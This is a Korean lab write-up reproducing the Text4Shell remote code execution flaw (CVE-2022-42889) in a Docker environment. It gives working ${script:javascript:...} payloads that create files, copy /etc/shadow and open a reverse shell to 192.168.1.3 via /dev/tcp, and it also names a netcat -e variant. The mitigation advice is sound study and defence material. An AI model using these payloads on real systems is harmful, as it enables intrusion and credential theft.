







# Apache Commons Text Text4Shell 원격 코드 실행 취약점 (CVE-2022-42889)

**Contributors**

- [이효준(@PLSP2108)](http://github.com/PLSP2108)

<br/>

## 요약

Apache Commons Text는 문자열 치환, escaping, interpolation 기능을 제공하는 Java 라이브러리입니다. CVE-2022-42889는 Apache Commons Text 1.5 이상 1.10.0 미만 버전에서 `StringSubstitutor.createInterpolator()`를 사용할 때 발생할 수 있는 취약점입니다.

취약한 애플리케이션이 신뢰할 수 없는 사용자 입력을 그대로 `StringSubstitutor`에 전달하면, 공격자는 `${script:javascript:...}` 형태의 payload를 삽입하여 서버 측에서 JavaScript 엔진을 통해 명령을 실행할 수 있습니다. 이 취약점은 흔히 Text4Shell로 불립니다.

- CVE 번호: CVE-2022-42889
- 영향 버전: Apache Commons Text 1.5 ~ 1.9
- 패치 버전: Apache Commons Text 1.10.0 이상
- 취약점 유형: 원격 코드 실행(RCE)
- CVSS v3.1: 9.8 Critical

<br/>

## 환경 구성

이 실습 환경은 Docker Compose 하나로 구성됩니다.

| 서비스 | 설명 | 접근 주소 |
| --- | --- | --- |
| `text4shell` | Apache Commons Text 1.9를 사용하는 취약한 Spring Boot 애플리케이션 | `http://localhost:8080` |
| `observer` | 공격 결과로 생성된 `/tmp` 파일을 브라우저에서 확인하는 컨테이너 | `http://localhost:8081` |
| `ttyd` | 브라우저에서 사용할 수 있는 터미널 컨테이너 | `http://localhost:7681` |

세 컨테이너는 `text4shell-net` 브릿지 네트워크에 연결되어 있으며, 컨테이너 간 통신이 가능합니다. 또한 `text4shell`의 `/tmp` 경로와 `observer`의 `/observed` 경로가 같은 Docker volume을 공유하므로, 공격 결과 파일을 브라우저에서 바로 확인할 수 있습니다.

실행 명령은 다음과 같습니다.

```bash
docker compose up --build
```

환경을 종료하려면 다음 명령을 실행합니다.

```bash
docker compose down
```

`1.PNG`: `docker compose up --build` 실행 후 세 컨테이너가 정상적으로 올라온 화면




<br/>

## 취약 조건

이 환경의 취약점 발생 조건은 다음과 같습니다.

1. 애플리케이션이 Apache Commons Text 1.9를 사용합니다.
2. 사용자 입력값이 `/attack?payload=` 파라미터로 전달됩니다.
3. 서버는 전달받은 값을 검증하지 않고 `StringSubstitutor.createInterpolator().replace(payload)`에 전달합니다.
4. Java 8 런타임에서 JavaScript 엔진(Nashorn)을 사용할 수 있습니다.
5. 공격자는 `${script:javascript:...}` lookup을 이용해 서버 측 Java 코드를 실행할 수 있습니다.

취약 코드의 핵심은 다음과 같습니다.

```java
StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
String result = interpolator.replace(payload);
```

`createInterpolator()`는 `script`, `url`, `dns` 등 여러 lookup을 포함하는 interpolator를 생성합니다. 신뢰할 수 없는 입력을 이 메서드에 그대로 전달하면 공격자가 의도한 표현식이 서버에서 평가될 수 있습니다.

<br/>

## 취약점 재현

### 1. 서버 정상 동작 확인

컨테이너 실행 후 다음 URL에 접속합니다.

```text
http://localhost:8080/attack
```

기본 응답으로 `Result: Hello World`가 출력되면 애플리케이션이 정상적으로 실행 중입니다.

`2.PNG`: `/attack` 기본 페이지 접속 결과



<br/>

### 2. 파일 생성 명령 실행

다음 payload는 컨테이너 내부에서 `touch /tmp/pwned` 명령을 실행합니다.

```text
http://localhost:8080/attack?payload=${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/pwned')}
```

브라우저 응답에는 `java.lang.UNIXProcess` 형태의 결과가 출력됩니다. 명령 실행 결과를 확인하려면 observer 컨테이너가 제공하는 페이지에 접속합니다.

```text
http://localhost:8081/
```

목록에 `pwned` 파일이 표시되면 공격이 성공한 것입니다.

`3.PNG`: 공격 URL 실행 후 observer 컨테이너에서 `pwned` 파일을 확인할 수 있음



<br/>

### 3. 복잡한 쉘 명령 실행

`java.lang.Runtime.getRuntime().exec(String)`은 입력 문자열을 bash에 그대로 넘기는 방식이 아니므로 `>`, `&&`, `|` 같은 쉘 메타문자를 직접 해석하지 못합니다. 복잡한 명령을 실행하려면 `Runtime.exec(String[])` 형태로 `/bin/bash -c`를 명시적으로 호출해야 합니다.

예를 들어 다음과 같은 명령을 실행할 수 있습니다.

```bash
id > /tmp/id && cat /etc/shadow > /tmp/shadow && echo done
```

```text
http://localhost:8080/attack?payload=%24%7Bscript%3Ajavascript%3Anew%20java.util.Scanner%28java.lang.Runtime.getRuntime%28%29.exec%28Java.to%28%5B%22%2Fbin%2Fbash%22%2C%22-c%22%2C%22id%20%3E%20%2Ftmp%2Fid%20%26%26%20cat%20%2Fetc%2Fshadow%20%3E%20%2Ftmp%2Fshadow%20%26%26%20echo%20done%22%5D%2C%20%22java.lang.String%5B%5D%22%29%29.getInputStream%28%29%29.useDelimiter%28%22%5C%5CA%22%29.next%28%29%7D
```

실행 후 observer 페이지에서 `/tmp/id`, `/tmp/shadow` 파일이 생성되었는지 확인할 수 있고, 파일을 다운로드해 확인할 수 있습니다.

```text
http://localhost:8081/
http://localhost:8081/id
http://localhost:8081/shadow
```

`4.PNG`: 복잡한 쉘 명령 실행 후 observer에서 `id`, `shadow` 파일을 확인하는 화면



`5.PNG`: 윈도우 호스트에서 파일 다운로드 후 010 Editor로 내용을 확인하는 화면



<br/>

### 4. Reverse Shell 실행

`Runtime.exec(String[])` 형태로 `/bin/bash -c`를 명시적으로 호출하는 방식을 통해 Reverse Shell을 실행할 수 있습니다. 취약한 서버와 동일한 네트워크 상에 위치한 TTYD 웹 셸(192.168.1.3)에서 `nc -nvlp 9999` 명령을 실행하고, 서버에서 다음 명령을 실행하여 Reverse Shell을 획득, 서버의 제어권을 탈취할 수 있습니다.

```bash
/bin/bash -i > /dev/tcp/192.168.1.3/9999 0<&1 2>&1
```

```text
http://localhost:8080/attack?payload=%24%7Bscript%3Ajavascript%3Anew%20java.util.Scanner%28java.lang.Runtime.getRuntime%28%29.exec%28Java.to%28%5B%22%2Fbin%2Fbash%22%2C%22-c%22%2C%22%2Fbin%2Fbash%20-i%20%3E%20%2Fdev%2Ftcp%2F192.168.1.3%2F9999%200%3C%261%202%3E%261%22%5D%2C%20%22java.lang.String%5B%5D%22%29%29.getInputStream%28%29%29.useDelimiter%28%22%5C%5CA%22%29.next%28%29%7D
```

`6.PNG`: TTYD 웹 셸에서 Reverse Shell 획득에 성공한 화면



[참고] 현재 공격 환경에는 해당되지 않지만, 만약 서버 컨테이너에 취약한 `netcat-traditional`이 설치되어 있다면 `http://localhost:8080/attack?payload=${script:javascript:java.lang.Runtime.getRuntime().exec('nc 192.168.1.3 9999 -e /bin/bash')}` 방식으로도 실행할 수 있습니다.

<br/>

## PoC 코드 및 자동화

취약한 endpoint는 다음과 같이 구현되어 있습니다.

```java
@GetMapping("/attack")
public String vulnerableEndpoint(@RequestParam(value = "payload", defaultValue = "Hello World") String payload) {
    StringSubstitutor interpolator = StringSubstitutor.createInterpolator();

    try {
        String result = interpolator.replace(payload);
        return "Result: " + result;
    } catch (Exception e) {
        return "Error Occured: " + e.getMessage();
    }
}
```

Chrome 브라우저 대신 `poc.py`를 사용한 Reverse Shell 자동화 코드 실행 결과는 다음과 같습니다.

```text
pip install websockets aiohttp
python ./poc.py
```

`7.PNG`: poc.py 실행을 통해 CLI 환경에서 TTYD의 Reverse Shell을 조작하는 모습



<br/>

## 실행 결과

실습 결과 다음을 확인할 수 있었습니다.

- `${script:javascript:...}` payload가 서버 측에서 평가됩니다.
- `touch /tmp/pwned` 명령으로 컨테이너 내부에 파일을 생성할 수 있습니다.
- `/bin/bash -c`를 사용하면 리다이렉션과 `&&`가 포함된 복잡한 명령도 실행할 수 있습니다.
- observer 컨테이너를 통해 공격 결과 파일을 브라우저에서 확인할 수 있습니다.

<br/>

## Risk Score

이 취약점의 위험도는 9.8점으로 평가합니다.

| 항목 | 평가 |
| --- | --- |
| Attack Vector | Network |
| Attack Complexity | Low |
| Privileges Required | None |
| User Interaction | None |
| Scope | Unchanged |
| Confidentiality | High |
| Integrity | High |
| Availability | High |

공격자는 인증 없이 원격에서 payload를 전달할 수 있고, 취약한 서버가 이를 평가하면 명령 실행으로 이어질 수 있습니다. 따라서 기밀성, 무결성, 가용성 모두에 높은 영향을 줄 수 있습니다.

<br/>

## Reproducibility

Dockerfile에서 Java 8 런타임과 Apache Commons Text 1.9를 고정했기 때문에 동일한 Docker 환경에서는 안정적으로 재현됩니다. 다만 Text4Shell의 `script:javascript` payload는 JavaScript 엔진 존재 여부에 영향을 받으므로, Docker 환경 밖의 최신 JDK에서는 같은 payload가 실패할 수 있습니다.

<br/>

## 대응 방안

1. Apache Commons Text를 1.10.0 이상으로 업그레이드합니다.
2. 신뢰할 수 없는 사용자 입력을 `StringSubstitutor.createInterpolator()`에 직접 전달하지 않습니다.
3. 필요한 lookup만 명시적으로 허용하고 `script`, `url`, `dns` lookup은 사용하지 않습니다.
4. 사용자 입력값에 `${...}` 형태의 표현식이 포함되는지 검증합니다.
5. 애플리케이션 컨테이너를 최소 권한 사용자로 실행합니다.
6. 컨테이너 내부의 민감 파일 접근 권한을 제한하고, 불필요한 도구를 설치하지 않습니다.
7. 외부 입력이 서버 측 expression/interpolation 엔진에서 평가되는 구조를 정기적으로 점검합니다.

<br/>

## 참고 자료

- [NVD - CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889)
- [Apache Commons Text Security Reports](https://commons.apache.org/proper/commons-text/security.html)
- [Apache Commons Text 1.10.0 Release Notes](https://commons.apache.org/proper/commons-text/changes-report.html#a1.10.0)
- [Docker Hub - tsl0922/ttyd:1.7.8](https://hub.docker.com/r/tsl0922/ttyd/tags?name=1.7.8)
